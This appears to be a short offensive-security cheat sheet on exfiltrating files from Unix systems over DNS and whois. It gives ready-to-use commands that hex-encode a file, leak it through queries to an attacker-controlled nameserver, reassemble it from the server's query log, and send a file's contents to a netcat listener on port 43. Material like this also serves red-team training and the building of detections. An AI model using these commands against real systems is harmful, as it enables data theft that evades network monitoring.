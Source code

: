 # DNS

## 01 - Unix Shell

### 1.1 - Hex Encoded DNS Exfiltration

```
$ xxd -p file.txt > file.hex

$ while read line; do drill $line.<nameserver_dns_server>; done < file.hex

$ egrep -o [0-9a-f]*.<nameserver_dns_server> /var/lib/bind/query.log | cut -d . -f 1 | uniq > file.hex

$ xxd -r -p file.hex > file.txt
```

### 1.2 - Whois

```
$ whois -h <IP> -p 43 `cat /path/to/file.txt`

$ sudo nc -lnvp 43
```

## References

- [NotSoSecure: Out of Band Exploitation (OOB) CheatSheet](https://notsosecure.com/out-band-exploitation-oob-cheatsheet)

- [DNS exfiltration of data: step-by-step simple guide](https://hinty.io/devforth/dns-exfiltration-of-data-step-by-step-simple-guide/)

- [Setting Up Your Own Malicious DNS Server For Data Exfiltration (Without a DNS Server)](https://john-woodman.com/research/dns-exfiltration-setup/)